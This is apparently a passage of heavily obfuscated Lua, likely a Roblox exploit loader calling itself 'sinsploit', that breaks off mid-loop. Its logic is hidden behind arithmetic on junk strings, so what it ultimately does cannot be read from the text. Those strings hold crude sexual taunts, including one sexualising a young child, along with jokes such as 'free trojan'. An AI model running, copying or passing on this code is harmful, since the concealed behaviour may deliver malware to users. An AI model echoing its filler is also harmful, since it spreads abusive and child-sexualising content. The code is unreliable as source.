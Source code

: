 ,nil,nil;(function() _msec=(function(e,d,o)local K=d["ڪڪنننجح؃ټكضضڪ"];local G=o[e[(657+-#{1,'}',{},1,1,'}'})]][e["جسڝكټآسقحضحكقڪحدؠ"]];local m=(-#[[This is working now]]+(-98+0x79))/(-#"pinkerton"+(((-0x2f-(0x5e-93))+-#'I like gargling cum')+78))local s=(0x65+((-0x34+-106)+0x3b))-((0x8e-134)+-#[[Hi skid]])local T=o[e[((0x78ea/(0x6778/172))+-#'amena jumping')]][e["سدڪڝقحكحآآ"]];local p=((-#"deobfuscated"+(28272/(0x127+(-0x439/23))))-0x65)+(52/0x1a)local B=o[e[(((606+-#{",";1,'nil',(function()return#{('hPkhMf'):find("\107")}>0 and 1 or 0 end),1})+-0x42)+-#[[sins daddy]])]][e["ئسضدڪدؠن"]]local l=(73+-0x47)-(-#"sinsploit"+((-0x73+(41565/0x33))/0x46))local x=(((((-0x3a+(-#"Rivers Cuomo"+(2223516/0xfe)))+-#[[IPIPEH I WANNA FUCK WITH YOU]])-4376)/214)+-#"CockAndBallTorture")local r=(((-#'weezer'+((-253316/0xa6)/0xe))+2)+0x73)local h=(-0x75+(-#{149,(function()return{','}end)();'nil',",";10,1}+125))local w=(6+-#{",";'nil';'}',(function()return{','}end)()})local O=(((0xfa-(-#"edp445 what are you doing to my 3 year old son"+((0x586e/77)+-0x41)))+-#"Dick")+-0x3d)local b=(28-(-#[[sins daddy]]+(((-#"iPipeh is Winner"+(-0x71+72))+2505)/0x44)))local D=((159+((-#'Rivers Cuomo'+(-0x22+-41))+9))-77)local u=(11+-#{59;'}',{};{};",",'}',{}})local _=(((((-0x2f+21377)/54)-240)+-#'IPIPEH ILOVE YOU AAAAA')-0x81)local f=(900/(-69+(50862/((460+-#{'nil';(function()return#{('lbkhbO'):find("\107")}>0 and 1 or 0 end),'}',1,",";'nil',197})-280))))local N=(9+-#{1;(function()return#{('KkPlpL'):find("\80")}>0 and 1 or 0 end),'nil';'nil';37})local S=(0x70-((25707+-#{(function()return#{('bOlOKo'):find("\108")}>0 and 1 or 0 end);'nil',(function()return#{('bOlOKo'):find("\108")}>0 and 1 or 0 end)})/238))local t=(-#{{},(function()return#{('KlMLLL'):find("\77")}>0 and 1 or 0 end),1;",",{}}+8)local i=((((-50-0x22)+-15953)/0xcb)+82)local P=((30444/(-#[[Hard Sex with iPipeh]]+(0x11e+(-#'pinkerton'+(-0x17+2)))))/0x2b)local U=((-5292/((2758+-#{{};(function()return#{('pkKfOb'):find("\75")}>0 and 1 or 0 end);1,1})/0x33))+101)local k=(-#"big hard cock"+(2400/((7172/(-63+(0xc5+-90)))+-#"ILoveBlowJobs")))local c=(65-((228-((376-(-#'CockAndBallTorture'+(2497/0xb)))+-#'test123'))+-#[[weezer]]))local E=e[(1445+-0x48)];local Y=o[e[(0xe4+-40)]][e["دنزؠدئز؃ق"]];local F=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('حؠك؃حآكق')..'\109\101'..('\116\97'or'قآڝڪقڝآؠ')..e[((-38+0x247)+-#"BluntMan420 Was Here")]];local A=o[e[(0x10a9a/130)]][e["ئئڪسټنددد"]];local I=(6+-#{(function()return#{('OOMkfk'):find("\77")}>0 and 1 or 0 end),(function()return{','}end)(),'nil',37})-(((-#"big hard cock"+(-0x62+458))-0xe8)+-0x71)local y=((((64192/0xec)+-#'Hard Sex with iPipeh')-164)/44)-(-#[[IPIPEH I WANNA FUCK WITH YOU]]+(0xdd4/118))local W=o[e[(423-0xeb)]][e["ڪضئڪدحؠڪؠ"]];local n=function(e,o)return e..o end local v=(0x20c/131)*(0x204/(-#"Two trucks having sex"+(0x196-(533-0x115))))local z=o[e["دقؠضكضڝ؃ؠسئئجڝ"]];local a=(-#'tonka'+(1659/0xed))*(((-#[[iam u Furry iPipeh]]+(16479-(-#"This is working now"+(-100+0x20cc))))/0x3e)+-#[[Bong]])local H=(1130+-0x6a)*(((((-106+0x156)+-#"Dick")-164)-0x31)+-#'Candyman was here')local j=((4704/(((104+-0x5e)-48)+122))+-#[[test]])local g=(-#'free trojan'+((-0x19+(0x17c-220))+-0x7a))*((0xc66/138)+-#[[Never gonna give u up]])local M=o[e["ڝضټضقزققڝسآ"]]or o[e[(0x1e609/237)]][e["ڝضټضقزققڝسآ"]];local C=(-74+((0xfd8/(((51275/0x19)+-#[[free trojan]])/0xaa))+-#'ez monke'))local e=o[e["كزقحضندزسڝټ"]];local L=(function(n)local r,d=2,0x10 local o={j={},v={}}local a=-l local e=d+s while true do o[n:sub(e,(function()e=r+e return e-s end)())]=(function()a=a+l return a end)()if a==(v-l)then a=""d=I break end end local a=#n while
e